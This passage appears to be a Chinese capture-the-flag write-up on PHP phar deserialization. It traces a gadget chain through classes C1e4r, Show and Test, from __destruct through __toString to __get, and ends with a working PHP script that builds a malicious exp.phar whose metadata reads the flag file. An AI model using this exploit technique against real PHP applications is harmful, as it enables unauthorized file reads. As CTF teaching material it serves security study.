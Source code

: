 我们观察一下 `__toString()`方法，我们发现：

`$content = $this->str['str']->source;`

并且在方法`__construct()`中提示我们使用`phar://伪协议`

所以，此处我们应该让 `$this->str['str']`设为Test对象，这样的话，Test对象就会调用一个不存在的属性：source，就会调用Test类魔术方法`__get()`，从而获得flag

但是怎样才能让Show对象调用`__toString()`方法？

我们观察一下C1e4r这个类：

```php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test;
    }
}
```

如果我们设置 $str变量为Show类对象，这样就可以调用Show类对象的`__toString()`方法了

通过以上分析，我们可以写如下代码构造：

```php
<?php

class C1e4r {
    public $test;
    public $str;
}

class Show {
    public $source;
    public $str;
}

class Test {
    public $file;
    public $params = array('source'=>'/var/www/html/f1ag.php');
}

$c = new C1e4r();
$s = new Show();
$t = new Test();
$s->str['str'] = $t;
$c->str=$s;
echo serialize($c);
$phar = new Phar('exp.phar');
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($c);
$phar->addFromString("test.txt","test");
$phar->stopBuffering();
```
